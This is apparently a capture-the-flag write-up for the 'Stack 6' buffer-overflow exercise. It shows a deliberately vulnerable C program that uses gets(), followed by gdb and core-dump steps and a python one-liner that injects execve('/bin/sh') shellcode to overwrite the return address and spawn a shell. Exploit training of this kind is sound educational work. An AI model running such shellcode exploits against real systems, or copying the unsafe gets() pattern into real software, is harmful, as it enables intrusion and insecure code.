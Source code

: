 
# Stack 6

### Task
```
  #include <stdlib.h>
  #include <unistd.h>
  #include <stdio.h>
  #include <string.h>

  void getpath()
  {
    char buffer[64];
    unsigned int ret;

    printf("input path please: "); fflush(stdout);

    gets(buffer);

    ret = __builtin_return_address(0);

    if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
    }

    printf("got path %s\n", buffer);
  }

  int main(int argc, char **argv)
  {
    getpath();
  }
```

### Solution
```
   gdb stack6
      disas getpath
      quit
  ulimit -c unlimited
  python -c "print('A' * 80 + 'BBBB')" | ./stack6
  ls /tmp
  gdb ./stack6 /tmp/core.11.stack6.1453 -q
      info file
      find /w1 0xb7fde000, 0xb7fe2000, 0x41414141
      x/20x 0xb7fde000
      quit
  (python -c "print('\x90' * 4 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80' + '\xcc' * (80 - 24 - 4) + '\xb7\xfd\xe0\x04'[::-1])"; cat) | ./stack6
```
![stack 6(1)](./img/6(1).png)
![stack 6(2)](./img/6(2).png)
![stack 6(3)](./img/6(3).png)
![stack 6(4)](./img/6(4).png)
![stack 6(5)](./img/6(5).png)
![stack 6(6)](./img/6(6).png)
